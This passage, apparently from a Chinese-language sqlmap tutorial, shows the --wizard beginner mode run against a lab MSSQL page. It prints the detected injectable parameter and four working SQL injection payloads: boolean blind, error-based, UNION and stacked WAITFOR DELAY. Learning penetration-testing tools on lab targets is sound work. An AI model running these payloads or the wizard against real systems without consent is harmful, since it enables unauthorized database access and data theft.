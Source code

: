 ```
[...]

```

### 初级用户向导参数

参数：--wizard 面向初级用户的参数，可以一步一步教你如何输入针对目标注入。

```
$ python sqlmap.py --wizard

????sqlmap/1.0-dev-2defc30 - automatic SQL injection and database takeover tool

http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:25:26

Please enter full target URL (-u): http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1
POST data (--data) [Enter for None]: 
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 1
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Smart
[3] All
> 1

sqlmap is running, please wait..

heuristic (parsing) test showed that the back-end DBMS could be 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) and risk (1)? [Y/n] Y
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection points with a total of 25 HTTP(s) requests:
---
Place: GET
Parameter: id
????Type: boolean-based blind
????Title: AND boolean-based blind - WHERE or HAVING clause
????Payload: id=1 AND 2986=2986

????Type: error-based
????Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause
????Payload: id=1 AND 4847=CONVERT(INT,(CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (4847=4847) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)))

????Type: UNION query
????Title: Generic UNION query (NULL) - 3 columns
????Payload: id=1 UNION ALL SELECT NULL,NULL,CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) CHAR(70) CHAR(79) CHAR(118) CHAR(106) CHAR(87) CHAR(101) CHAR(119) CHAR(115) CHAR(114) CHAR(77) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)-- 

????Type: stacked queries
????Title: Microsoft SQL Server/Sybase stacked queries
????Payload: id=1; WAITFOR DELAY '0:0:5'--
```